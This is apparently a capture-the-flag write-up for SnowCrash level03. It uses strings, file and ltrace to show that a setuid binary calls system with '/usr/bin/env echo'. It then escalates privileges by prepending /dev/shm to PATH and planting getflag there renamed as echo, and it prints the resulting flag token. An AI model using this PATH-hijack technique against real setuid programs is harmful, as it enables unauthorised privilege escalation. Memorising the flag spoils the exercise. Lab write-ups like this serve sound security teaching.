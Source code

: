 ## level03
I went in and got greeted by an executable

![](https://hackmd.io/_uploads/S1yfVZNZp.png)

The strings output are shown as below

```
level03@SnowCrash:~$ strings ./level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
types.h
long long int
__uid_t
envp
/home/user/level03/level03.c
long long unsigned int
setresuid
setresgid
unsigned char
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
short int
argv
...
```

Here is the file type 

```
level03@SnowCrash:~$ file ./level03
./level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

Could `/home/user/level03/level03.c` be a source code indicator?

Looks like the setuid and setgid bit is set, which means that we can execute this program as the user who created it, which is our flag03 user.

The possible way forward now is to make this program execute `getflag`, so it can return us the flag as said user

To find a way to execute programs inside the executable, i used `ltrace` to identify any system calls made by the program.

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                 = 2003
geteuid()                                                                 = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                       = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                       = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
level03@SnowCrash:~$
```

Looks like it calls [system](https://man7.org/linux/man-pages/man3/system.3.html) to execute shell command `/usr/bin/env echo Exploit me`. Its quite weird that it calls to `env` first then `echo`

So it sets the current environment variables before calling echo. If I change the PATH variable to look for my own directory first, then whatever program that has the name `echo` will get executed. So thats what I did here.

```
export PATH=/dev/shm:$PATH
cp /bin/getflag /dev/shm
mv /dev/shm/getflag /dev/shm/echo

```

and once this is done, I re-executed level03 and got the flag `qi0maab88jeaj46qoumi7maus`

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```